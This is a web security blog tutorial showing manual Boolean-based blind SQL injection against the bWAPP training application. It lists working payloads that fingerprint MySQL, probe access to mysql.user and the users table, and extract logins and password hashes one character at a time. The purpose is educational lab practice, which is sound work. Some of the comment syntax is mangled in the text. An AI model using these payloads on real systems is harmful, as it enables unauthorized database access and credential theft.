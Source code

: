```yaml
---
title: "Boolean Based Blind SQL Injection on MySQL : How to Do Manually"
date: 2018-07-10
category: WebAppSec
image: {
  src: "/images/SQli.jpg",
  alt: "SQL Injection",
}
description: This article will guide you on how to do Blind Boolean SQL Injection.
author: Abhinav Kumar
---
```


This article will guide you on how to do Blind Boolean SQL Injection. It is also known as Inference technique. As I have already told you in the last article that Blind SQL Injection is more like a guessing game and it is time consuming. An automated way is going to save your time but that way you won’t be able to learn it manually. SQLMAP is the best tool for that. To show the manual Blind Boolean SQLi, I am making use of **Beebox Bwapp application**.

Before starting to manually test the application, Let us find out ways to check if an application is vulnerable to Blind SQLi: 1. When testing for Blind SQLi based on Boolean, the website that will be vulnerable, will not load fully as expected when you inject the query. 2. As a testing parameter you can use either OR / AND .Keep in mind that OR means anyone is true and AND means both must be true. According form the query. 3. It is based on the concept of Boolean that means either true or False.

**Query strings that you can use to check:** 
```
\_\_\_\_‘ AND 1=1 #
```

When you use this make sure anything that goes in the blank must give a TRUE response otherwise it will always give false. \_\_\_\_’ OR 1=1 #** –It will always return True no matter what is in the blank.

**Let’s dive in:**

I tried to put name of a movie in the database **‘iron man’.**

![images/Boolean-Based-Blind-SQL-Injection_-How-to-do-manually-1.png](/images/Boolean-Based-Blind-SQL-Injection_-How-to-do-manually-1.png)

Now to check for Boolean based SQLi, I have used single quote on the page ” **‘** “. The page hasn’t loaded fully and some images haven’t loaded.

So, I put query **iron man’ AND 1=1#** now.

Meaning of the above query is:

iron man is the movie that actually exist in the database. The single ‘ will end the query that actually exist in the backend php. Then AND so we can check another query if it is true. and finally 1=1 which will always be true then comes the # to comment out the statements that comes after it.
![Boolean-Based-Blind-SQL-Injection_-How-to-do-manually-2.png)](/images/Boolean-Based-Blind-SQL-Injection_-How-to-do-manually-2.png)

OUTPUT: The movie exists in the database. Means the application behind is taking both these values and checking if they are true!

![Boolean-Based-Blind-SQL-Injection_-How-to-do-manually-3.jpg)](/images/Boolean-Based-Blind-SQL-Injection_-How-to-do-manually-3.jpg)

To take our guessing to the next level, Let’s see how it handles the false queries.

So I used query iron’ AND 1=2# –This query is false because even when iron man movie exist in database, 1 is never equal to 2. and it should generate a False output.

![images/Boolean-Based-Blind-SQL-Injection_-How-to-do-manually-4.png](/images/Boolean-Based-Blind-SQL-Injection_-How-to-do-manually-4.png) 
OUTPUT: It says the movie doesn’t exist in our database, hence false. 

![images/Boolean-Based-Blind-SQL-Injection_-How-to-do-manually-5.jpg](/images/Boolean-Based-Blind-SQL-Injection_-How-to-do-manually-5.jpg)
Now you know what does TRUE and FALSE output looks like.

Let’s start the real deal!

The database here is MySQL, how I made sure of that is by trying certain basic queries that MySQL, MsSQL,postgreSQL and Oracle uses as default respectively. If you can just figure out one which gives you the desired Boolean output, you can figure out the database, but it is a tedious task and won’t workout in one go.

```
1st Test: **MYSQL uses comment as — — \[the double dash requires an extra space after it \]and #** 

**iron man’ AND 1=1 — — >works**

**iron man’ AND 1=1 # >works**

**MSSQL and Oracle uses — \[no space is required after double dash\] or /\* \*/\[Multiline comments\]**

**iron man’ AND 1=1 — >doesn’t work** I have used double dash without space but it didn’t workout. This removes the possibility of MSSQL or Oracle entirely.
```
```
2nd Test: **MySQL uses @@version and version() for checking the version.** **MSSQL uses @@version for checking the version** **Oracle uses SELECT banner FROM v$version** Both @@version and version() worked here. Hence giving me the answer that it is MySQL database at the backend.
```
There are numerous other ways to check the behavior of the application and find out what database it uses but for this application this is suffice.

I used the following queries we get some information about the database.

1. **iron man’ and substring(@@version,1,1)=4#** This query returns true if the mysql version starts with 4. For me it was false. So I tried this iron man’ and substring(@@version,1,1)=5# This query turns out to be true.The substring function takes 3 arguments,**substring(‘somestring’,1,1)** – This says that I want to get the 1st character of the string and another 1 means upto that character only, So If I say **substring(‘something’,1,2)** the output for this will be ‘**so**‘. The third argument defines the number of characters.
2. **iron man’ and substring(database(),1,1)=’a’#** this query checks the name of the database(), one character at a time. Again substring has been used.
3. **iron man’ and (select 1)=1#** this query checks if the sub select works or not. We are checking this so that we can brute force the username charatcers one by one and also the password. The output for this was true,hence we can use the select.
4. **iron man’ AND (select 1 from mysql.user limit 0,1)=1#** This query check if we have the permission to access mysql.user table. The answer for this is true, hence we can access that table. The limit 0,1 will get the 1st row only.
5. **iron man’ AND (select 1 from users limit 0,1)=1#** This query checks if the users table exist. You have to guess different names for it and the process takes time so be patient.
6. **iron man’ AND (select substring(concat(1,password),1,1) from users limit 0,1)=1#** This query will check if the password column exist in the users table.
7. **iron man’ AND (select substring(concat(1,admin),1,1) from users limit 0,1)=1#** This query checks of the admin column exists and gives the output true. I have checked the same for login. Login column also exist in bwapp. which contains the usernames.
8. **iron man’ AND substring((SELECT login from users limit 0,1),1,1)=’a’#** This query will check that the first row value of the login column in the users table. If it is ‘a’ then it will return true or else it will not return false. This is the lengthy part because you have bruteforce every character. There is another way to do it do. You can use the greater than and less than symbol instead equal to. To trim down your searches.
9. Like above you can find out the password too. But since passwords are in MD5, it will take a lot of time. Hence I believe you can practice it all you can, you should know the meaning of the queries you put. But guessing will take a lot of time without exactly seeing the output, hence an automated tool will be good when you are in an environment where your guess isn’t working.
